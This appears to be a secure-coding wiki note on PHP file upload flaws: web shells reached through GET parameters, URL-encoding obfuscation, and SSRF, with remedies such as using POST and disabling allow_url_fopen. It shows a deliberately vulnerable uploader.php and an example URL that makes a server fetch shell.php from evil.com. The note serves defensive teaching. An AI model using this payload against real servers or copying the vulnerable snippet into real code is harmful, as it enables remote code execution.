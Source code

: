 This allows them to create a malicious PHP file (`shell.php`) that can execute system commands. For example, they could visit:

```
https://example.com/uploaded/shell.php?cmd=whoami
```

Once the malicious file is uploaded, the hacker can execute commands on the server, potentially revealing sensitive information like privileged usernames.

In addition, the hacker may try to obscure the url by encoding or double encoding or triple encoding, so that it isn't clear there is code in the search param. More information at [[Sanitization of inputs (form inputs, url search param, etc)]]

#### Solution:
To prevent such attacks, **never use GET to handle file uploads**. Instead, use POST for file uploads, and always validate and sanitize file names and contents before saving them to the server.

However if you MUST use GET, you have to sanitize by recursively decoding the search parameters ([[Sanitization of inputs (form inputs, url search param, etc)]]) and getting the basename then saving to only a specific folder.

### Upload with GET - Server-Side Request Forgery (SSRF)

Vulnerability index: [https://www.invicti.com/learn/server-side-request-forgery-ssrf/](https://www.invicti.com/learn/server-side-request-forgery-ssrf/)

At the backend, `GET` is not meant for uploading files. But careless code can let an attacker _simulate_ a file upload by misusing URL parameters in a way that **writes to the filesystem**. See [Upload - Why POST with multipart form-data is safer than GET]

This is what can happen as an External SSRF or an Internal SSFR:

#### External SSRF

External **SSRF (Server-Side Request Forgery)** occurs when an attacker manipulates a server into making an HTTP request to an external server that the attacker controls, often with the goal of exploiting vulnerabilities or gathering sensitive information. Mnemonic: The server is forged/tricked into making a request and the request comes from the victim's server, so it's a server-side request.

uploader.php:
```
if (isset($_GET['upload_url'])) {  
	$url = $_GET['upload_url'];  
	$contents = file_get_contents($url);  
	file_put_contents("uploaded/".basename($url), $contents);  
}
```

Then hacker visits:
https://yourdomain.com/uploader.php?upload_url=https://evil.com/shell.php

Where the upload url is to their own server's shell.php that can take in shell commands (interactive RCE) or runs hard-coded shell commands (predefined RCE).

PHP by default allows PHP functions to download remote files. The setting to override to "Off" in php.ini is `allow_url_fopen` which could enable/disable access to URL objects for `file_get_contents()`, `fopen()`, `include()`, and `require()`.
